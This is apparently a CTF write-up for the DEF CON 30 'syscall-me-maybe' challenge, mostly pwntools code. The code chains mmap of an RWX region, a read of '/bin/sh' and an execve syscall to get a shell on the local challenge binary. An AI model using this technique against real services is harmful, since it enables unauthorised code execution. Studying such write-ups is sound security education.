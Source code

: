 # defcon30 speedrun - syscall-me-maybe

after a quick look you see the challenge get a value and save in rdi, then rsi, rdx, r10, r8 and r9, then ask you about your syscall number.

![Screenshot_2022-09-02_23_46_22](https://user-images.githubusercontent.com/83473054/188107346-0f0837e8-e640-4325-bd4b-db9ebcf4894a.png)

I did checksec on this bin file
pie is enabled.

## exploit
```python
from pwn import *

p = process('./challenge')
e = ELF('./challenge')
gdb.attach(p,'''
    b *main
''')

```

in above code I loaded the elf file and make gdb ready for debugging stuff. then we must create a new mapping in the virtual address space for bypassing ASLR.

```python

PROT_READ = 0x1
PROT_WRITE = 0x2
PROT_EXEC = 0x4
MAP_SHARED = 0x1
MAP_FIXED = 0x10
MAP_PRIVATE = 0x2
MAP_ANONYMOUS = 0x20

p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0x4096))
p.sendlineafter('want for rdx?',str(PROT_READ|PROT_WRITE|PROT_EXEC))
p.sendlineafter('want for r10?',str(MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(9))
```
I did mmap above, you could read about mmap

now we have a rwx part in the memory wich starts at 0x1000000, we are able to write our "/bin/sh" string there

```python
p.sendlineafter('Do another (0/1)?',str(0x1))
bin_sh = "/bin/sh\x00"

p.sendlineafter('want for rdi?',str(0x0))
p.sendlineafter('want for rsi?',str(0x1000000))
p.sendlineafter('want for rdx?',str(0x8))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(0))
p.send(bin_sh)
```

now we have "/bin/sh" in the memory and for mmap stuff we now where it's located.

```python
p.sendlineafter('Do another (0/1)?',str(0x1))

p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0))
p.sendlineafter('want for rdx?',str(0))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))
p.sendlineafter('syscall number to call?',str(0x3b))
p.interactive()
```

and above code is execve.


## full exploit

```python
from pwn import *

p = process('./challenge')
e = ELF('./challenge')
gdb.attach(p,'''
    b *main
''')


PROT_READ = 0x1
PROT_WRITE = 0x2
PROT_EXEC = 0x4
MAP_SHARED = 0x1
MAP_FIXED = 0x10
MAP_PRIVATE = 0x2
MAP_ANONYMOUS = 0x20


p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0x4096))
p.sendlineafter('want for rdx?',str(PROT_READ|PROT_WRITE|PROT_EXEC))
p.sendlineafter('want for r10?',str(MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(9))

p.sendlineafter('Do another (0/1)?',str(0x1))
bin_sh = "/bin/sh\x00"

p.sendlineafter('want for rdi?',str(0x0))
p.sendlineafter('want for rsi?',str(0x1000000))
p.sendlineafter('want for rdx?',str(0x8))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(0))
p.send(bin_sh)

p.sendlineafter('Do another (0/1)?',str(0x1))

p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0))
p.sendlineafter('want for rdx?',str(0))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))
p.sendlineafter('syscall number to call?',str(0x3b))
p.interactive()
```
